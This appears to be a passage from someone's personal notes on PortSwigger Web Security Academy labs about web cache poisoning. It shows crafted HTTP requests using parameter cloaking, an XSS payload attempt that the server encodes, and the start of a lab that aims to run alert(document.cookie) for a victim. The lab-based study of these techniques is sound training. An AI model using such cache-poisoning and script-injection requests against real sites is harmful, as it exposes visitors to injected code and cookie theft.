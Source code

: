Using the `utm_content` from previous lab we can try something like this:

```http
GET /?utm_content=123&callback=setCountryCookie HTTP/2
```

Now this will be cacheable so it's not useful like this. 
However, running these two show that first cache the other:

```
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
GET /js/geolocate.js?callback=setCountryCookie&utm_content=123;callback=runAlert HTTP/2
```

Now again run these two to check if first cache the other:

```
GET /?utm_content=123 HTTP/2
GET / HTTP/2
```

Notice in Response:
```html
<link rel="canonical" href='//0ab2007a047988018589911800a900c7.web-security-academy.net/?utm_content=123'/>
```

```html
?utm_content=123'/><script>runAlert(alert(1);)</script>
```

Idea is to poison the Home Page then poison the geolocate call.

Guess they didn't want me to go that way.
```html
<link rel="canonical" href='//0ab2007a047988018589911800a900c7.web-security-academy.net/?utm_content=123&apos;/&gt;&lt;script&gt;runAlert(alert(1);)&lt;/script&gt;'/>
```

## Targeted web cache poisoning using an unknown header

![Awesome Badges](https://img.shields.io/badge/level-practitioner-blue)

This lab is vulnerable to web cache poisoning. 

A victim user will view any comments that you post. 

To solve this lab, you need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. 
However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

#### Solution

Running Param Miner for the Home page we find the following headers:
- `Origin`
- `Via`
- `X-Host`
